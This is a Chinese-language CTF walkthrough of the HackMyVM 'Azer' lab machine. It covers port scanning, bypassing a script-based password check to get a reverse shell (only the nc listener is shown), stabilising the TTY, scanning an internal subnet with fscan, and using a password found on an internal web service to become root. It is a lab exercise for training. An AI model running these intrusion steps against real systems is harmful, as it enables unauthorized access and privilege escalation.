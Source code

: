 # hmv_azer

# 0.简介

**靶机**：[hackmyvm - azer](https://hackmyvm.eu/machines/machine.php?vm=Azer)
**难度**：绿色
**目标 IP**：192.168.205.235
**本机 IP**：192.168.205.141

---

# 1.扫描

使用 `Nmap` 进行初步端口扫描，以识别开放的服务和端口：

```bash
┌──(kali㉿kali)-[~/test]
└─$ nmap -sS -p- -Pn -n -T4 192.168.205.235
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-08 11:19 CST
Nmap scan report for 192.168.205.235
Host is up (0.00038s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
80/tcp   open  http
3000/tcp open  ppp
MAC Address: 08:00:27:07:E9:02 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.77 seconds
                                                           
```

结果显示两个开放端口：

**80/tcp** - HTTP 服务
**3000/tcp** - 原始显示为 PPP，但实际上是一个 web 应用程序，用于用户认证

---

# 2.踩点

`80`端口页没有发现明显利用点，踩点`3000`端口

![image](https://github.com/user-attachments/assets/3b565e9c-e8cd-41ae-bf84-0cf6e7460d2e)

![image](https://github.com/user-attachments/assets/f2dcad05-b377-43e6-aa7b-159b04935536)

![image](https://github.com/user-attachments/assets/9ab7e04b-b4c3-4d36-9fdf-b4d1c827bf98)

在进一步探索中发现，**3000** 端口的应用程序似乎通过执行 `.sh` 脚本来进行密码验证。利用这一特性，成功绕过了**密码验证**，并建立了**反弹 Shell**。

```bash
┌──(kali㉿kali)-[~/test]
└─$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [192.168.205.141] from (UNKNOWN) [192.168.205.235] 46566
bash: cannot set terminal process group (483): Inappropriate ioctl for device
bash: no job control in this shell
azer@azer:~$ id
id
uid=1000(azer) gid=1000(azer) groups=1000(azer),100(users)

```

---

# 3. 获得稳定的 Shell

获取**反向 shell** 后，通过以下命令获得稳定的**交互式** **TTY shell**：

```bash
script /dev/null -c bash  
ctrl+z  
stty raw -echo; fg  
reset xterm  
export TERM=xterm  
echo $SHELL  
export SHELL=/bin/bash  
stty rows 59 cols 236
```

---

# 4.提权

```bash
azer@azer:~$ hostname -I
192.168.205.235 10.10.10.1 172.17.0.1 

azer@azer:~$ ./fscan -h 10.10.10.1/24 -no -np -nopoc

   ___                              _  
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <  
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.4
start infoscan
10.10.10.1:80 open
10.10.10.10:80 open

```

`-np` 跳过存活检测
`-no` 不保存文件
`-nopoc` 跳过web poc扫描

通过扫描内部网络发现了另一个 IP `10.10.10.10` 正在运行 **HTTP** 服务。

```bash
azer@azer:~$ nc 10.10.10.10 80
Hello
HTTP/1.1 400 Bad Request
Date: Wed, 08 Jan 2025 05:03:33 GMT
Server: Apache/2.4.58 (Unix)
Content-Length: 226
Connection: close
Content-Type: text/html; charset=iso-8859-1

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>400 Bad Request</title>
</head><body>
<h1>Bad Request</h1>
<p>Your browser sent a request that this server could not understand.<br />
</p>
</body></html>
azer@azer:~$ curl 10.10.10.10
.:.AzerBulbul.:.
```

访问该服务时，得到了一个看起来像密码的字符串。

```bash
azer@azer:~$ su -
Password: 
root@azer:~# id
uid=0(root) gid=0(root) groups=0(root)

```

成功提权至 root
